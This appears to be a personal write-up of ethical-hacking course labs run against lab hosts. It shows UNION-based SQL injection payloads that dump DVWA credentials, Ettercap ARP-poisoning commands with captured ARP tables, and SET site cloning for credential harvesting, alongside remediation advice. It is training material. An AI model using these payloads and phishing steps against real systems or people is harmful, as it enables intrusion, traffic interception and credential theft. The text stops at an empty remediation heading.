










# Attacks & Exploitation; Field Notes

> Consolidated write-up of four Cisco Ethical Hacker exploitation labs: SQL Injection on DVWA, On-Path (MITM) with Ettercap, Social Engineer Toolkit (SET) credential harvesting, and Password Cracking with Hashcat / John the Ripper. First-person voice; my own field notes. The customized distribution used in conducting tests in this write-up is available at [Ethical Hacker Kali Linux](https://www.netacad.com/resources/lab-downloads?courseLang=en-US)

---

## TL;DR: Tool Index

| Attack class | Tool               | One-liner                                                                     | What it gives you                    |
| ------------ | ------------------ | ----------------------------------------------------------------------------- | ------------------------------------ |
| SQLi         | Manual UNION-based | `' OR 1=1 UNION SELECT user,password FROM users #`                            | DB schema, credentials               |
| SQLi         | CrackStation       | `https://crackstation.net`                                                    | Online hash cracker                  |
| On-path      | Ettercap GUI       | `sudo ettercap -G` → MITM → ARP Poisoning                                     | ARP spoof MITM, intercept traffic    |
| On-path      | Ettercap CLI       | `sudo ettercap -T -q -i br-internal --write mitm.pcap --mitm arp /t1// /t2//` | Scriptable MITM with pcap capture    |
| Social eng   | SET                | `setoolkit` → 1 → 2 → 3 → 2                                                   | Website clone → credential harvester |
| Hash crack   | Hashcat            | `sudo hashcat -m 0 -a 0 -o out.txt hashes.txt rockyou.txt`                    | GPU-accelerated dictionary attack    |
| Hash crack   | John the Ripper    | `john --format=raw-md5 --wordlist=rockyou.txt hashes.txt`                     | CPU dictionary + incremental         |


---

## Lab Topology

Same Kali VM as previous labs, bridged to two VLANs. This set of labs uses a slightly expanded set of targets; the Ettercap lab introduces a `bystander` host (`10.6.6.11`) that is *not* a target, useful as a control for what traffic the MITM does/doesn't intercept.


- **Attacker**: `10.6.6.1` (Kali VM, `br-internal` interface)
- **DMZ targets**: `10.6.6.13` (DVWA web server, Target 2 in MITM), `10.6.6.23` (Gravemind, Target 1 in MITM)
- **SSH access to 10.6.6.23**: `labuser` / `Cisco123`

---

## 1. SQL Injection: DVWA

DVWA (Damn Vulnerable Web Application) at `http://10.6.6.13` is the playground. I set DVWA security to **Low** (DVWA Security → Low → Submit), then opened SQL Injection in the left pane.

### Purpose
Exploit an unsanitized user-ID input to enumerate the database; first prove injection works, then determine field count, then DBMS version, then schema, then dump credentials. End goal: recover plaintext passwords via offline hash cracking.

### Usage
All payloads entered into the **User ID:** field on the SQL Injection page. The trailing `#` comments out the rest of the original query.

```sql
1' OR 1=1 #                                                 -- prove injection, return all rows
1' OR 1=1 UNION SELECT 1, VERSION() #                      -- DBMS version
1' OR 1=1 UNION SELECT 1, DATABASE() #                    -- current DB name
1' OR 1=1 UNION SELECT 1,table_name FROM information_schema.tables WHERE table_type='base table' AND table_schema='dvwa' #  -- enumerate tables
1' OR 1=1 UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='users' #                              -- enumerate columns
1' OR 1=1 UNION SELECT user, password FROM users #         -- dump creds
```

### Findings



`' OR 1=1 #` returned every row in the users table; admin, Gordon Brown, Hack Me, Pablo Picasso, Bob Smith; confirming injection. The `1=1` is an "always true" expression that defeats any WHERE filter. We see that it returns two columns, so when performing union, we need to ensure that we use same count.



`UNION SELECT 1, VERSION()` returned `5.5.58-0+deb8u1`; **MySQL 5.5.58 on Debian 8**.



`UNION SELECT 1, DATABASE()` returned `dvwa`; the current DB name.



`information_schema.tables` enumeration returned two base tables: `guestbook` and `users`. **`users`** is the obvious target; likely contains usernames and password hashes.



`information_schema.columns` on `users` returned many column names. The two of interest: **`user`** (the username) and **`password`** (the password hash). Other columns like `user_id` (numeric primary key, auto-increment) vs `user` (string username) clarified the schema.



`UNION SELECT user, password FROM users` dumped the credential table. The `admin` account is the highest-value target; it has the greatest rights on the system.

Pasting `admin`'s MD5 hash into [CrackStation](https://crackstation.net) recovered `password`. Pablo's hash cracked to `letmein`. Other accounts returned similar low-complexity passwords.


### Remediation
Three mitigations in priority order:
1. **Parameterized queries / prepared statements**; separate SQL code from user input at the parser level. The DB driver binds parameters, so even if the input contains `' OR 1=1 #`, it's treated as a string literal, not SQL syntax.
2. **Stored procedures**; encapsulate queries in DB-side procedures with typed parameters; the application calls them with bound inputs, never constructing raw SQL.
3. **Input validation + field whitelisting**; validate type, length, format on every input; reject anything outside the expected charset (e.g. user IDs should be integers only).

Additional defenses: least-privilege DB account (the web app should not be able to read `information_schema`), WAF rules for common SQLi signatures, error messages generic (don't reveal DBMS version or column names), monitoring for anomalous query patterns.

### Gotchas
CrackStation is rate-limited and only cracks common hashes; for SHA-512 or bcrypt you need local tools (Hashcat, John). The `#` comment style is MySQL-specific; SQL Server uses `--`, Oracle uses `--` or `/* */`. `ORDER BY` probing breaks if the original query has `LIMIT` or `GROUP BY`; try `UNION SELECT NULL, NULL` incrementally instead. DVWA Low security has zero sanitization; Medium adds `mysqli_real_escape_string` (still bypassable via numeric injection); High uses `LIMIT 1` (bypassable with `#`). The lessons scale; the payloads don't.

---

## 2. On-Path (MITM) Attack: Ettercap

On-path (formerly "man-in-the-middle" / MITM) is the technique of inserting yourself between two communicating hosts so you can intercept, read, and optionally modify their traffic. The lab uses ARP spoofing on a local LAN; the attacker (`10.6.6.1`) impersonates the server (`10.6.6.13`) to the user host (`10.6.6.23`), causing the user's traffic to flow through the attacker before reaching the real server.

### Purpose
Demonstrate that on a switched LAN, L2 traffic between two hosts can be redirected through an attacker who is on the same subnet. With cleartext protocols (HTTP, FTP, Telnet), the attacker sees everything; with encrypted protocols (HTTPS), the attacker sees metadata but not content unless they also perform SSL stripping.

### Usage


GUI workflow:
```bash
sudo ettercap -G                                # launch GTK+ UI
# Setup → Primary Interface → br-internal → checkmark
# Hosts → Hosts List → Scan for Hosts (magnifying glass)
# Click 10.6.6.23 → Add to Target 1
# Click 10.6.6.13 → Add to Target 2
# MITM icon → ARP Poisoning → check "Sniff remote connections" → OK
# Start (play button) to begin spoofing
# Stop / Exit when done
```

CLI workflow with pcap capture:
```bash
sudo ettercap -T -q -i br-internal --write mitm-saved.pcap --mitm arp /10.6.6.23// /10.6.6.13//
#   -T                text-only interface
#   -q                quiet mode (less terminal noise)
#   -i br-internal    sniffing interface
#   --write file.pcap write packets for Wireshark
#   --mitm arp        ARP poisoning attack
#   /t1// /t2//       target 1 (user) and target 2 (server)
# Press q to stop
wireshark mitm-saved.pcap                       # analyze the capture
```

On the target (`10.6.6.23`) via SSH (`labuser` / `Cisco123`):
```bash
ip neighbor                                      # ARP cache before attack
ping -c 5 10.6.6.13                              # generate traffic
ip neighbor                                      # ARP cache after attack; MAC for .13 = MAC of .1
```

### Findings

#### Eavesdropping 


#### MAC of `10.6.6.23` before the attack

```
labuser@gravemind:~$ ip nei                                                                                                                                 
10.6.6.1 dev eth0 lladdr 02:42:88:6f:60:24 REACHABLE                                                                                                        
10.6.6.13 dev eth0 lladdr 02:42:0a:06:06:0d STALE                                                                                                           
labuser@gravemind:~$    
```
#### MAC of `10.6.6.23` after the attack

```
labuser@gravemind:~$ ip nei                                                                                                                                 
10.6.6.1 dev eth0 lladdr 02:42:88:6f:60:24 REACHABLE                                                                                                        
10.6.6.13 dev eth0 lladdr 02:42:88:6f:60:24 REACHABLE                                                                                                       
labuser@gravemind:~$                                                                                                                                        
```
Before the attack, `ip neighbor` on `10.6.6.23` showed `10.6.6.1` (the attacker) with its real MAC. After starting Ettercap's ARP poisoning, `ip neighbor` showed `10.6.6.13` (the legitimate server) now mapped to the attacker's MAC; the same MAC as `10.6.6.1`. The bystander `10.6.6.11` retained its real MAC because it wasn't a target.

#### Wireshark analysis



Examining the pcap in Wireshark revealed the attack mechanics:
1. Ettercap first broadcast ARP requests to obtain the real MAC addresses for both targets.
2. Ettercap then sent ARP *replies* to each target, claiming "the other target's IP is at my MAC."
3. Both targets updated their ARP caches; from now on, any packet destined for the other target was addressed to the attacker's MAC at L2.
4. Ettercap continued sending periodic ARP replies throughout the capture, because ARP cache entries age out after a preset timeout. Repeating the replies keeps the spoofed entries fresh. Also, if another host asks for either target's MAC, the legitimate owner answers truthfully; periodic re-poisoning overrides that.

**Why must the attacker be on the same IP network?** ARP operates at Layer 2; it uses broadcasts (`FF:FF:FF:FF:FF:FF`) to resolve an IP to a MAC, and broadcasts are not forwarded by routers. So ARP spoofing only works against hosts on the attacker's local subnet.

### Remediation
For defenders: enable **Dynamic ARP Inspection (DAI)** on managed switches; the switch validates ARP packets against the DHCP snooping binding table and drops spoofed ARPs. Use **DHCP snooping** as a prerequisite for DAI. Set static ARP entries for critical infrastructure (gateways, servers); they can't be overwritten. Segment networks with VLANs so an attacker on one VLAN can't spoof ARPs on another. Use end-to-end encryption (TLS, SSH, IPsec) so even if MITM succeeds, the attacker only sees ciphertext. Deploy IDS signatures for ARP spoofing patterns (rapid ARP replies, MAC/IP conflicts). For high-security environments, use 802.1X to prevent unauthorized hosts from joining the LAN at all.

### Gotchas
Ettercap must be on the same L2 segment; won't work across a router. DAI defeats this attack entirely on managed infrastructure; on unmanaged switches or hubs, there's no defense at L2. Ettercap's SSL stripping is unreliable against modern browsers with HSTS preload; pure cleartext protocols are still the easy target. The CLI form saves pcap files; the GUI form does not (by default). On Apple M1/M2 Kali VMs, `ip neighbor` may not work; use `arp -a` as root instead. Ettercap sends gratuitous ARP at high frequency; if the switch logs MAC flaps, that's a tell.

---

## 3. Social Engineering: SET Credential Harvester

The Social Engineer Toolkit (SET) by David Kennedy includes a website-cloning tool that duplicates a target site's login page, hosts the copy on the attacker's machine, captures submitted credentials, and silently redirects the victim to the real site. The victim sees a normal login → success flow; the attacker gets the credentials.

### Purpose
Demonstrate how trivially a phishing site can be built without writing any code; SET downloads the target site's HTML, hosts it on the attacker's IP, captures POST parameters, and redirects to the real URL. The lesson is that phishing success depends on user education and URL vigilance, not on attacker sophistication.

### Usage

```bash
sudo -i                                          # SET needs root
setoolkit                                        # launch
# Accept license with 'y' on first run

# Menu navigation:
# 1) Social-Engineering Attacks
# 2) Website Attack Vectors
# 3) Credential Harvester Attack Method
# 2) Site Cloner
# IP for POST back: 10.6.6.1
# URL to clone: 10.6.6.23
```
### Findings

SET then opens a listener on port 80 and waits for victims.



After the victim submits credentials, SET prints them in the terminal:
```
[*] WE GOT A HIT! Printing the output:
POSSIBLE USERNAME FIELD FOUND: username=wad                                                                                                                
POSSIBLE PASSWORD FIELD FOUND: password=mo                                                                                                                 
POSSIBLE USERNAME FIELD FOUND: Login=Login                                                                                                                 
POSSIBLE USERNAME FIELD FOUND: user_token=25ad12a4bb4c4f7930dd62d8479142f5                                                                                 
[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.  
```

Ctrl-C generates an XML report at `/root/.set/reports/YYYY-MM-DD HH:MM:SS.xml` (note: spaces in filename, quote it when reading with `cat`).

When I cloned `http://DVWA.vm`, the cloned site was served from `http://10.6.6.1/`. The URL in the victim's browser read `10.6.6.1`; different from the real `dvwa.vm/login.php`. This is the single biggest tell a vigilant user has.

After submitting `wad` / `mo`, the browser was redirected to the real DVWA login page (`http://DVWA.vm/login.php`); same URL as Part 2 Step 2a. The user thinks "wrong password, let me try again." Meanwhile SET captured the username, password, and even the CSRF `user_token` from the form.

The XML report preserved all POST parameters, useful for chain-exploitation (e.g. replaying the CSRF token).

### Remediation
